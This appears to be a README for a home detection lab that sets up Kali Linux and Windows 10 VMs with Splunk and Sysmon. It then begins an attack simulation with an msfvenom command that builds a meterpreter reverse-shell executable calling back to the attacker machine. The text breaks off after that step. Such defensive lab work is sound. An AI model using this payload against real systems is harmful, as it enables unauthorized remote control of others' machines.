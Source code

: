 ## Installation Steps ⚙️ [🔗 Useful Resources & Download Links](#-useful-resources--download-links).
Step 1: Set Up Virtual Machines
  1.1 Kali Linux (Attacker Machine)
    - Download Kali ISO from the official   
      website
    - Create a new VM in VirtualBox or   
      VMware and install Kali Linux.
    - Update the system:
```bash
sudo apt update && sudo apt upgrade -y 
``` 
  1.2 Windows 10 (Target Machine)
    - Download Windows 10 ISO from the  
      Microsoft website.
    - Create a VM and install Windows 10.
    - Ensure networking is enabled for    
      communication between VMs.

Step 2: Install Splunk (for Log Monitoring)
  - Download Splunk Free from the Splunk   
    website.
  - Install Splunk on your Windows 10 VM.
  - Start Splunk and log in with admin  
    credentials.
  - Add data input to receive Windows logs 
    via the Universal Forwarder.

Step 3: Install Sysmon on Windows 10
  - Download Sysmon from Microsoft 
    Sysinternals.
  - Download a ready-to-use config file like 
    sysmonconfig-export.xml from SwiftOnSecurity or SysmonModular.
  - Move both files to a folder (e.g.,    
    C:\Program Files\Sysmon)
  - Run in PowerShell (as Administrator):

```powershell
.\Sysmon64.exe -accepteula -i sysmonconfig-export.xml
```

## Attack Simulation 💥

This section demonstrates how a reverse shell attack was carried out from Kali Linux to Windows 10 using Metasploit and msfvenom.

🔧 Step 1: Create Payload Using msfvenom
On Kali Linux:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f exe -o reverse_shell.exe
```
![alt text](Screenshots/01_payload_created.png)
